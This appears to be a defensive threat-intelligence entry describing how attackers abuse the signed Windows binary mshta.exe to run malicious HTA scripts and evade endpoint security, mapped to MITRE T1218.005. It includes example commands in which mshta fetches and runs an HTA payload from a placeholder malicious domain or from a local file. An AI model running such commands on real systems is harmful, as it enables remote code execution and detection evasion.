

# Abuse of mshta

## Metadata

- **UUID**: `767f10bd-1947-44e3-b999-5fbf50d99027`
- **Schema**: `threat::1.0`
- **TLP**: clear

## Description
Mshta.exe is a legitimate Microsoft binary used for executing 
Microsoft HTML Application (HTA) files. Because mshta.exe is digitally signed 
by Microsoft, malicious actors often abuse it as a "Living off the Land" binary 
(LOLBin) to evade detection. Attackers can craft malicious HTA or VBScript code 
and pass it to mshta.exe, effectively bypassing many traditional endpoint 
security controls.  

Threat actors have leveraged mshta.exe to stealthily download and execute 
malicious payloads. By embedding or obfuscating their scripts within HTML 
or JavaScript code, adversaries can launch mshta.exe to pull additional 
malware from remote servers.  

Mshta.exe can also be invoked using command-line arguments that specify 
a remote or local HTA file. An example of such an abuse might look like:  

```bash
mshta.exe https://malicious[.]domain/payload.hta
```

or

```bash
mshta.exe C:\Path\To\MaliciousScript.hta
```

Once executed, mshta.exe runs with the same privileges as the invoking user 
(or higher, if misconfigurations or stolen credentials allow for elevated privileges).

## Techniques
- T1218.005

## Chaining

